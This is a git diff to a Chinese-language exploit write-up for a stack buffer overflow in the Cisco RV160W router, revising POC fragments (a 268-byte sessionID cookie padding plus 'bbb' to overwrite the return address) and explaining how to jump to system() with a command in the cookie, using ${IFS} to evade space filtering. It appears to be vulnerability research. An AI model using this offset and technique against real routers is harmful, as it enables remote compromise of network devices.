

Cisco RV160W

diff --git a/IOT/RV160W.md b/IOT/RV160W.md
@@ -429,7 +429,6 @@ overflow函数中形参a2指向空字符，所以其实最后就是未限制sess
 POC如下：
 
 ```python
-from pwn import *
 import requests
 import urllib3
 import sys
@@ -457,15 +456,13 @@ print(r.content)
 
 ![](../pic/iot/img1/add11.png)
 
-分析crash结果，得知是在overflow函数返回前抛出的内存引用异常。原因是数据过长，覆盖了上一个栈帧的变量，导致最后一个strcpy往上一个栈帧a5变量地址写数据时，该地址不合法。
+分析crash结果，得知是在overflow函数返回前抛出的内存引用异常。原因是数据过长，覆盖了压入栈中的第五个参数a5，它刚好位于返回地址下方，导致最后一个strcpy往a5变量地址写数据时，该地址不合法。
 
 所以为了能够保证利用，需要刚好覆盖到overflow函数的返回地址。
 
 经过调试，测得偏移为268,POC如下：
 
 ```python
-
-from pwn import *
 import requests
 import urllib3
 import sys
@@ -475,7 +472,7 @@ url = sys.argv[1]
 if url[-1:]=='/':
    url=url[:-1]
 
-payload = "sessionID=1234".ljust(268,"a")
+payload = "sessionID=1234".ljust(268,"a")+"bbb"
 
 urllib3.disable_warnings()
 
@@ -491,7 +488,9 @@ print(r.content)
 
 ![](../pic/iot/img1/add12.png)
 
-payload末位被置零，返回地址0x161DC被替换成0x16100，且可以观察到此时的r0寄存器指向sessionID=后的字符串1234，因此可以在sessionID=后放置命令字符串，然后控制PC跳转到system函数上。由于cookie在overflow_back1函数中被过滤了空格，在overflow中被过滤了等号，导致命令执行受限，空格可以用${IFS}替换，等号只能避免使用了。
+![](../pic/iot/img1/add12p.png)
+
+可以看到返回地址被覆盖成了bbb（0x626262），且可以观察到此时的r0寄存器指向sessionID=后的字符串1234...，因此可以在sessionID=后放置命令字符串，然后控制PC跳转到system函数上。由于cookie在overflow_back1函数中被过滤了空格，在overflow中被过滤了等号，导致命令执行受限，空格可以用${IFS}替换，等号只能避免使用了。
 
 ![](../pic/iot/img1/add13.png)
 
